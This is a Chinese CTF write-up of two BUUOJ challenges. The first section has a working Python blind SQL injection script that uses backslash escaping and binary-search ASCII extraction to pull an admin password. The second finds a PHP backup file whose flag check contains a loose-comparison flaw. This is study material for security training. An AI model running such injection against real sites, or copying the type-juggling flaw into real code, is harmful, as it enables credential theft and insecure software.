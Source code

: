 ### [BJDCTF 2nd]简单注入

> 这里贴出一个自己的脚本吧，会写盲注脚本但是不懂怎么快速构造语句，哭了，还得努力。

```
import requests
url = "http://97e723eb-aaa8-4f2a-b274-b40fbeaccf3f.node3.buuoj.cn/index.php"
data = {"username":"admin\\",
        "password":""}
result = ""
for i in range(1,20):
    lmax = 127
    lmin = 33
    while lmax-lmin > 1:
        mid=(lmax+lmin) //2
        payload = "or/**/if(ascii(substr(password,{0},1))>{1},1,0)#".format(i, mid)
        data['password'] = payload
        res = requests.post(url,data=data)
        if res.text.find("stronger") > 1:
            lmin = mid
        else:
            lmax = mid
    result += chr(lmax)
print(result.replace(chr(lmin+1),'')) 
```

### [ACTF2020 新生赛]BackupFile

> 打开网页
> ![在这里插入图片描述](img/969c596d287696d1b00911e7af6ddcaf.png)
> 找备份源码
> 一开始我以为是找www.zip和backup这些等等，没想到最后却是index.php.bak
> 下载源码打开

```
<?php
include_once "flag.php";
if(isset($_GET['key'])) { 
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
} 
```
